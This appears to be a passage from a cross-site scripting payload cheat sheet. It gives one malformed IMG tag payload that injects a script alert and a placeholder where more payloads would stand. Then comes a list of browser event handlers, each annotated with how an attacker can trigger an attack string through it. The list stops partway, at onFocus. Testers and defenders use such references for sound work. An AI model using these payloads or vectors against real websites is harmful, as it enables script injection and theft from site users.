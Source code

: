 Malformed IMG Tags
```<IMG """><SCRIPT>alert("XSS")</SCRIPT>"\>
```



{MORE PAYLOADS}




Event Handlers
```
    FSCommand() (attacker can use this when executed from within an embedded Flash object)
    onAbort() (when user aborts the loading of an image)
    onActivate() (when object is set as the active element)
    onAfterPrint() (activates after user prints or previews print job)
    onAfterUpdate() (activates on data object after updating data in the source object)
    onBeforeActivate() (fires before the object is set as the active element)
    onBeforeCopy() (attacker executes the attack string right before a selection is copied to the clipboard - attackers can do this with the execCommand("Copy") function)
    onBeforeCut() (attacker executes the attack string right before a selection is cut)
    onBeforeDeactivate() (fires right after the activeElement is changed from the current object)
    onBeforeEditFocus() (Fires before an object contained in an editable element enters a UI-activated state or when an editable container object is control selected)
    onBeforePaste() (user needs to be tricked into pasting or be forced into it using the execCommand("Paste") function)
    onBeforePrint() (user would need to be tricked into printing or attacker could use the print() or execCommand("Print") function).
    onBeforeUnload() (user would need to be tricked into closing the browser - attacker cannot unload windows unless it was spawned from the parent)
    onBeforeUpdate() (activates on data object before updating data in the source object)
    onBegin() (the onbegin event fires immediately when the element’s timeline begins)
    onBlur() (in the case where another popup is loaded and window looses focus)
    onBounce() (fires when the behavior property of the marquee object is set to “alternate” and the contents of the marquee reach one side of the window)
    onCellChange() (fires when data changes in the data provider)
    onChange() (select, text, or TEXTAREA field loses focus and its value has been modified)
    onClick() (someone clicks on a form)
    onContextMenu() (user would need to right click on attack area)
    onControlSelect() (fires when the user is about to make a control selection of the object)
    onCopy() (user needs to copy something or it can be exploited using the execCommand("Copy") command)
    onCut() (user needs to copy something or it can be exploited using the execCommand("Cut") command)
    onDataAvailable() (user would need to change data in an element, or attacker could perform the same function)
    onDataSetChanged() (fires when the data set exposed by a data source object changes)
    onDataSetComplete() (fires to indicate that all data is available from the data source object)
    onDblClick() (user double-clicks a form element or a link)
    onDeactivate() (fires when the activeElement is changed from the current object to another object in the parent document)
    onDrag() (requires that the user drags an object)
    onDragEnd() (requires that the user drags an object)
    onDragLeave() (requires that the user drags an object off a valid location)
    onDragEnter() (requires that the user drags an object into a valid location)
    onDragOver() (requires that the user drags an object into a valid location)
    onDragDrop() (user drops an object (e.g. file) onto the browser window)
    onDragStart() (occurs when user starts drag operation)
    onDrop() (user drops an object (e.g. file) onto the browser window)
    onEnd() (the onEnd event fires when the timeline ends.
    onError() (loading of a document or image causes an error)
    onErrorUpdate() (fires on a databound object when an error occurs while updating the associated data in the data source object)
    onFilterChange() (fires when a visual filter completes state change)
    onFinish() (attacker can create the exploit when marquee is finished looping)
    onFocus() (attacker executes the attack string when the window gets focus)
```